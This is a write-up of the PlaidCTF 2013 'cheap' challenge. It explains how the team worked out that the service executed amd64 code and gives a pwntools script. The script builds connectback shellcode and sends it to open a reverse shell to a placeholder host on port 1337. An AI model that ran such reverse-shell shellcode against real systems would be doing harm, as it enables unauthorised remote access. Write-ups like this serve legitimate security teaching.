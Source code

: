 ```yaml
---
title: cheap - PlaidCTF 2013
author: IdolfHatler
layout: post
published: true
date: 2013-05-06 22:54:44
---
```


Challenge description:

> <pre>What could this mysterious architecture be?
> All of these are the same:
> 50.17.171.79:9998
> 54.224.183.192:9998
> 184.73.107.54:9998
> 54.234.231.14:9998
> 54.224.176.148:9998
> Note:Apparently GNU netcat doesn't support a half-duplex shutdown, so you should use OpenBSD netcat or connect using python or something for cheap.
> The flag is <em>not</em> an architecture.
> The goal is to get a shell</pre>

This challenge seemed to be inspired by the MysteryBox challenge from GitS 2013. The service allowed you to send it some machine code and it would then send you back a disassembling of the code and run the code on the server. The difference from the original challenge was, that the architecture was different and that not all instructions were accepted or even disassembled.

We soon noticed that 0x50-0x57 was push register instructions, that 0x58-0x5f was pop register instructions and that 0x68 was push immediate. This strongly suggested either i386 or amd64, but it was hard to test directly, since most instructions were disallowed. We initially assumed that it was i386 and started writing shellcode of the format:

        call start
    start:
        pop ebx
        mov dword [ebx+end-start],   SHELLCODE
        mov dword [ebx+end-start+4], SHELLCODE
        mov dword [ebx+end-start+8], SHELLCODE
    end:

This proved almost successful and we were able to debug our code by doing a SYS_exit, since the service would output the exit-code. However once we started doing more complex syscalls, we started getting error code not consistent with the syscall we tried to do.

Finally we realized that it was amd64 rather than i386. After the realization it was fairly trivial to create a connectback shell:

```python
#!/usr/bin/env python

from pwn import *
from socket import SHUT_WR
context('amd64', 'linux', 'ipv4')

HOST = "pwnies.dk"
PORT = 9010

MY_HOST = '1.2.3.4'
MY_PORT = 1337

code = asm(shellcode.connectback(MY_HOST, MY_PORT))
while len(code) % 4:
    code += '\x90'

code2 = '''
    call start
start:
    pop rbx
'''

for n,word in enumerate(group(4, code)):
    code2 += 'mov dword [rbx + end - start + %d], %d\n' % (n*4, u32(word))

code2 += '''
end:
    '''
r = remote(HOST, PORT, timeout=1)
r.sendafter('cheap\n', asm(code2))
r.sock.shutdown(SHUT_WR)
print r.recvall()
```

Key: bro_do_you_even_x86_64_RISC

